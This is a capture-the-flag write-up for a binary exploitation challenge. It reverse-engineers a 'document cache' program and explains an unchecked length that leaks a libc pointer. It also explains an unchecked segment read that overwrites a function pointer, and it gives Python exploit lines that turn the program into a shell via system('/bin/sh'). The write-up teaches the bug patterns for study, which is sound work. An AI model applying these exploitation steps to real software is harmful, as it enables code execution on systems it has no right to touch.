

# Imagine Using Fable

- Category: pwn

"dario amodei made sure fable's codec carnival caches your documents safely. surely the cache is perfectly safe, right?"

A fixed array of six "documents", each with its own handler function pointer. Every length in the protocol is validated against the buffer size except the one that actually drives the write.

### Solution:

##### 1. The cache is six structs and a parked libc pointer

`main` (`sub_401344`) builds the table before the banner:

```asm
0040137d:  mov    eax,0x404080
00401382:  mov    edx,0x4041d0
00401387:  mov    qword ptr [rax],0x4012d7   ; handler = sub_4012d7
0040138e:  mov    dword ptr [rax + 0x8],0x28
00401395:  add    rax,0x38                   ; stride 0x38
00401399:  cmp    rax,rdx
0040139c:  jnz    0x401387
0040139e:  mov    esi,0x40200b               ; "printf"
004013a8:  call   0x4010e0                   ; dlsym(NULL, "printf")
004013ad:  mov    qword ptr [0x4041d0],rax
```

Six entries of `0x38` bytes from `0x404080` to `0x4041d0`, and a resolved `printf` address parked immediately after the last one. That `dlsym` call has no business in a codec — it is the leak the author intends you to find.

The struct layout is not quite what the init loop implies. Init writes `0x28` at `+0x08`, but every op that touches a length uses `0x40408c + i*0x38`, i.e. `+0x0c`:

```asm
004014c5:  mov    dword ptr [rax + 0x40408c],ebx    ; draw stores the length
00401513:  mov    edx,dword ptr [rdx + 0x40408c]    ; preview reads it
```

So `+0x08` is dead and the real field is `+0x0c` — which also means every document starts with length **0**, not `0x28`. Final layout:

```
+0x00  handler fn ptr
+0x08  unused (init writes 0x28 here and nothing reads it)
+0x0c  length
+0x10  buf[0x28]                     -> 0x38 total
```



##### 2. Every length is checked except the one that writes

`L setlen[i,n]` stores a raw `u8` as the length with no comparison against `0x28`, and `P preview[i]` then `write()`s exactly that many bytes from a 40-byte buffer. Doc 5's buffer runs `0x4041a8`–`0x4041d0`, so a length of 48 spills the 8 bytes at `0x4041d0` — the `dlsym` pointer:

```python
setlen(io, 5, 48)
libc.address = u64(preview(io, 5, 48)[-8:]) - libc.sym["printf"]
```

`D draw[i,decl,segs]` is the write side, and it is the interesting one. The *declared* total is bounded properly:

```asm
00401425:  cmp    bpl,0x28
00401429:  ja     0x4014a5                   ; decl <= 0x28
```

but the per-segment length inside the loop is not bounded at all, and the "are we done" test happens **after** the read:

```asm
00401449:  lea    rdi,[rsp + 0x7]
0040144e:  call   0x401255                   ; seglen = one raw u8
0040145b:  movzx  esi,byte ptr [rsp + 0x7]
00401462:  lea    rdi,[r12 + rax*0x1 + 0x404080]
0040146a:  call   0x4011d6                   ; read seglen bytes -- unchecked
00401486:  add    ebx,edx
00401488:  cmp    al,bpl
0040148b:  jnc    0x4014be                   ; only NOW compare against decl
```

A single segment may be 255 bytes. `decl` never constrains it, because by the time `decl` is consulted the bytes are already in memory.

##### 3. Eight bytes of overrun is exactly one handler pointer

The offsets line up almost too neatly:

```
doc4.buf   0x404170  ..0x404198   (0x28 bytes)
doc5.hdlr  0x404198               <- 40 bytes past the start of doc4.buf
doc5.buf   0x4041a8
```

So one 48-byte segment into doc 4 fills its buffer and lands the next 8 bytes squarely on doc 5's handler, stopping at `0x4041a0` — before doc 5's own length and buffer, which stay intact.

`R render[i]` then does the rest of the work for us:

```asm
0040157b:  add    rdi,0x404090       ; rdi = doc[i].buf
00401589:  call   qword ptr [rax + 0x404080]
```

An indirect call through the hijacked pointer, with the document's own buffer already in `rdi`. Write `/bin/sh` into doc 5 first, overwrite the handler second, render third:

```python
draw(io, 5, 8, 8, b"/bin/sh\x00")                              # doc5.buf = rdi
draw(io, 4, 1, 48, b"A" * 40 + p64(libc.sym["system"]))        # doc5.handler
io.send(b"R" + bytes([5]))
```

`decl` is set to 1 in that second call purely to satisfy the `decl != 0` branch — the 48-byte segment does the work regardless, which is the whole point of the bug.

```
[+] printf       = 0x72dd72b2c6f0
[+] libc base    = 0x72dd72acc000
[+] doc5.handler := system (0x72dd72b1cd70)
sunctf26{th3_c4ch3_w4s_n0t_p3rf3ctly_s4f3_1m4g1n3_th4t}
```

Full script: [solve.py](solve.py)

**Flag:** `sunctf26{th3_c4ch3_w4s_n0t_p3rf3ctly_s4f3_1m4g1n3_th4t}`

### Takeaways

- When a protocol has an outer declared size and inner chunk sizes, check them **separately**. Validating the total and then trusting each chunk is a recurring shape, and the giveaway in disassembly is a bounds `cmp` that sits *after* the `call` to the read rather than before it.
- Trust the code that uses a field over the code that initialises it. Init here writes the size at `+0x08` while every real op reads `+0x0c`; taking the init loop at face value gives a wrong struct and a wrong overflow distance.
- A `dlsym` in a binary with no plugin system is a planted leak. Note where its result is stored — adjacency to an attacker-readable buffer is the actual hint.
- An array of structs whose first member is a function pointer means a linear overflow does not need to reach the stack. The nearest control-flow target is `sizeof(struct)` away, and the call site usually supplies `rdi` for free.
